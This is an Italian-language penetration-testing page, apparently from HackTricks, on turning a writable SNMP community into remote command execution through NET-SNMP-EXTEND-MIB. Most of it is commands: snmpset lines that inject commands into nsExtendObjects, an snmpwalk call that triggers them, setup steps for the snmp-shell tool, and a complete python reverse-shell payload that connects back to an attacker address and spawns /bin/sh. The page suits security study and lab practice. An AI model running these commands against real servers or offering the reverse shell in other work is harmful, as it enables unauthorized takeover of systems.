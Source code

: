{{#include ../../banners/hacktricks-training.md}}

# SNMP RCE

SNMP può essere sfruttato da un attaccante se l'amministratore ignora la sua configurazione predefinita sul dispositivo o server. Abusando della comunità SNMP con permessi di scrittura (rwcommunity) su un sistema operativo Linux, l'attaccante può eseguire comandi sul server.

## Estensione dei Servizi con Comandi Aggiuntivi

Per estendere i servizi SNMP e aggiungere comandi extra, è possibile aggiungere nuove **righe alla tabella "nsExtendObjects"**. Questo può essere realizzato utilizzando il comando `snmpset` e fornendo i parametri necessari, incluso il percorso assoluto all'eseguibile e il comando da eseguire:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```
## Iniezione di Comandi per Esecuzione

L'iniezione di comandi da eseguire sul servizio SNMP richiede l'esistenza e l'eseguibilità del binario/script chiamato. Il **`NET-SNMP-EXTEND-MIB`** richiede di fornire il percorso assoluto all'eseguibile.

Per confermare l'esecuzione del comando iniettato, il comando `snmpwalk` può essere utilizzato per enumerare il servizio SNMP. **L'output mostrerà il comando e i suoi dettagli associati**, incluso il percorso assoluto:
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
## Esecuzione dei Comandi Iniettati

Quando il **comando iniettato viene letto, viene eseguito**. Questo comportamento è noto come **`run-on-read()`**. L'esecuzione del comando può essere osservata durante la lettura di snmpwalk.

### Ottenere una Shell del Server con SNMP

Per ottenere il controllo sul server e ottenere una shell del server, può essere utilizzato uno script python sviluppato da mxrch da [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git).

In alternativa, una reverse shell può essere creata manualmente iniettando un comando specifico in SNMP. Questo comando, attivato da snmpwalk, stabilisce una connessione di reverse shell alla macchina dell'attaccante, consentendo il controllo sulla macchina della vittima. Puoi installare i prerequisiti per eseguire questo:
```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```
O una reverse shell:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
## Riferimenti

- [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)

{{#include ../../banners/hacktricks-training.md}}
